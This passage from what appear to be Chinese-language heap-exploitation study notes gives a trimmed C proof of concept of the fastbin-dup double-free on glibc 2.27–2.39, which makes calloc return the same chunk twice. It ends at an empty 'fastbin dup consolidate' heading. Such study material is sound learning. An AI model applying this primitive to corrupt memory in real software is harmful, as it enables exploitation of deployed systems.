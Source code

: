 ```C
```

### glibc2.27 - glibc2.39

#### poc精简

```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	void *ptrs[8];
	for (int i=0; i<8; i++) {
		ptrs[i] = malloc(8);
	}
	for (int i=0; i<7; i++) {
		free(ptrs[i]);
	}
    
	int *a = calloc(1, 8);
	int *b = calloc(1, 8);
	int *c = calloc(1, 8);

	printf("1st calloc(1, 8): %p\n", a);
	printf("2nd calloc(1, 8): %p\n", b);
	printf("3rd calloc(1, 8): %p\n", c);

	free(a);
	free(b);
	free(a);
    
	a = calloc(1, 8);
	b = calloc(1, 8);
	c = calloc(1, 8);
	printf("1st calloc(1, 8): %p\n", a);
	printf("2nd calloc(1, 8): %p\n", b);
	printf("3rd calloc(1, 8): %p\n", c);

	assert(a == c);
}
```



## fastbin dup consolidate

### POC精简

#### glibc 2.23
